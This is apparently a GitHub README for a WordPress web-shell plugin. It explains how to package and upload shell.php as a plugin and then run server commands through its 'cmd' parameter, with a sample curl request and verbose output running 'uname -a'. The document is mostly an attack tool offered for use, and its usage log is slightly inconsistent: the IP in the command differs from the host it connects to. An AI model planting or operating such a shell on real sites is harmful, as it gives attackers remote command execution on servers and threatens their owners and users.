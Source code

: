 wordpress-shell
===============

Cheap &amp; Nasty Wordpress Command Execution Shell.

Execute Commands as the webserver you are serving wordpress with!
Uploaded shell will probably be at <host>/wp-content/plugins/shell/shell.php

Install
=======
To install the shell, we are assuming you have administrative access to the Wordpress install and can install plugins.
Either upload the zip file located in the `dist/` directory, or create your own archive with:

```bash
λ wordpress-shell → λ git master → zip -r shell.zip shell.php
  adding: shell.php (deflated 39%)
  
λ wordpress-shell → λ git master → ls -lah shell.zip
-rw-r--r--  1 bob  staff   492B Aug 29 14:17 shell.zip
```

Once uploaded, navigate to `/wp-content/plugins/shell/shell.php` and provide the `cmd` argument.

Sample Usage
============

```bash
root@kali:~# curl -v "http://103.77.78.230/wp-content/plugins/shell/shell.php?$(python -c 'import urllib; print urllib.urlencode({"cmd":"uname -a"})')"
* About to connect() to 192.168.0.1 port 80 (#0)
*   Trying 192.168.0.1...
* connected
* Connected to 192.168.0.1 (192.168.0.1) port 80 (#0)
> GET /wp-content/plugins/shell/shell.php?cmd=uname+-a HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.0.1
> Accept: */*
> 
* additional stuff not fine transfer.c:1037: 0 0
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 200 OK
< Date: Thu, 28 Aug 2014 09:28:24 GMT
< Server: Apache/2.2.14 (Ubuntu)
< X-Powered-By: PHP/5.3.2-1ubuntu4
< Vary: Accept-Encoding
< Content-Length: 191
< Content-Type: text/html
< 
Linux wordpress-server 2.6.32-21-generic-pae #32-Ubuntu SMP Fri Apr 16 09:39:35 UTC 2010 i686 GNU/Linux
* Connection #0 to host 192.168.0.1 left intact
```
